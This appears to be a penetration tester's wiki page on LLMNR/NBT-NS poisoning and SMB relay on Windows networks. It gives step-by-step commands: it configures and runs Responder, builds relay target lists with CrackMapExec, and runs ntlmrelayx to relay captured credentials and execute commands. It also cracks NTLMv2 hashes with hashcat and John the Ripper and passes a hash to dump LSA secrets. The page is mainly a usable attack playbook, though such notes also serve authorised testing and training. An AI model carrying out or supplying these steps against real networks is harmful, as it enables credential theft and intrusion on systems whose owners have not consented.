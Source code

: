 ```yaml
---
title: LLMNR
description: 
published: true
date: 2021-01-30T20:00:04.700Z
tags: network, postex, llmnr
editor: markdown
dateCreated: 2021-01-29T15:29:14.015Z
---
```


# Man-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
(https://attack.mitre.org/software/S0174/) 

## Links 
Social Media
https://twitter.com/pythonresponder

Responder for Linux with Python
https://github.com/lgandx/Responder

Responder for Windows 
https://github.com/Kevin-Robertson/Inveigh

## Usage

## The Short: 

This allows an attacker to pretend to be another service and “claim” it as their own if the system can respond before the legitimate system can and in terms say :yes, that’s me send password” and collect over the wires passwords and password hashes and usernames. 

## The Long: 

Opening and operating this tool uses all the mDNS, LLMNR, NBT-NS and others in a way to collect possible NTLM (or other) credentials to be used to either crack or relay around a network that might be broadcasting the credentials around.
This allows you to also relay them with other tools. For this to best work you must find systems that do not have SMB signing enabled preferable V1 but v2 can work this is best done with crack map Exec (CME) in kali 
``` cme smb <CIDR> --gen-relay-list targets.txt ```

## MultiRelay: https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py


## NTLMRelayx : https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
Usage: ``` ntlmrelayx.py -t $target ```
Usage advanced: ``` ntlmrelayx.py -tf targets.txt -c $insert commands here$ ``` 

                        .

## HashCat 
``` hashcat -a 0 -m 5600 hashes.txt rockyou.txt -o cracked.txt -O ``` 

So, what does this do? Let’s break it down.
-a is for the attack type. 0 is used to specify we’re performing a dictionary attack.
-m is used to specify what type of hashes we’re looking to crack. Hashcat supports cracking dozens of different hash-types, so you’ll typically want to refer to their help documentation to know exactly which number to use. In our case, NTLMv2 hashes are represented by 5600
hashes.txt is a positional parameter. Hashcat expects you to place the name of the file containing your hashes first, which is what we’re doing here.
rockyou.txt is another positional parameter. Hashcat expects the name of the file that you wish to use for your dictionary attack.
-o is used to specify an output file. This is where we’d like the cracked passwords to be stored. If you don’t specify this flag, cracked passwords will be stored in a file called hashcat. potfile, which can be found in the hashcat directory.
-O is used to optimize the attack for the hardware running in our system. You may not need to use this.

## Jhon the ripper 
Usage: ``` john hasht.txt --wordlist=/usr/share/wordlists/rockyou.txt ``` 

## LLMNR Starting 

To start you need to find or locate responder usually 

Edit responder.conf
```
[Responder Core]

; Servers to start
SQL = On
SMB = Off     #off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    #off
HTTPS = On
DNS = On
LDAP = On
```

Then run 
``` sudo python Responder.py -I <interface> -rdw ```
``` sudo python Responder.py -I eht0 -rdw ```
Traffic should start to pop up
 Then set up the relay tool
``` ntlmrelayx.py -t $host$ ```
``` ntlmrelayx.py -tf $targets.txt$ ```

By default, it dumps the local SAM file if it can and if it does you can gain access with CME 
``` crackmapexec smb 10.55.100.0/24 -u $USER$ -H $HASH5120d0cb0df939e3044c5843e37b2c5f$ --local –lsa ```


## More Info Links
https://attack.mitre.org/techniques/T1557/001/
https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/
https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef
https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html




